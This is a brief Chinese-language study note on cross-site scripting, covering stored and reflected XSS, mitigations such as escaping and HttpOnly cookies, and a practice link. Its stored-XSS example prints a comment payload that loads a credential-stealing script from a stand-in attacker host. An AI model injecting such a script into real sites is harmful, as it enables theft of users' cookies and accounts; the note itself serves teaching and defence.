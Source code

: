 # XSS
XSS(Cross-Site- Scripting)跨站脚本攻击
> 具备窃取cookie的能力

> 本质：**信任网页A -> 不知情跳转 -> 未知网页B -> 恶意操作 -> 窃取A站的用户信息**
## 存储型XSS
危害性最大，恶意脚本直接注入应用。
### 示例
1. 攻击者发现网站漏洞(一般是评论区等内容填写的位置)
2. 通过漏洞插入插入恶意脚本
```
这是评论<script src=”http://hackersite.com/authstealer.js”></script>
```
3. 每次用户访问就会执行该恶意脚本，用户信息被窃取
> 和反射型的区别主要是存储型的恶意代码存在数据库里，反射型的恶意代码可能存储在URL里
## 反射型XSS
将恶意脚本嵌入应用中，用户访问才会激活。
### 示例

## 措施
解决办法：转义、避免eval、new Function、session标识http only，这样js无法获取这cookie值

## 训练
[XSS训练](https://alf.nu/alert1)

# 参考
[XSS](https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/)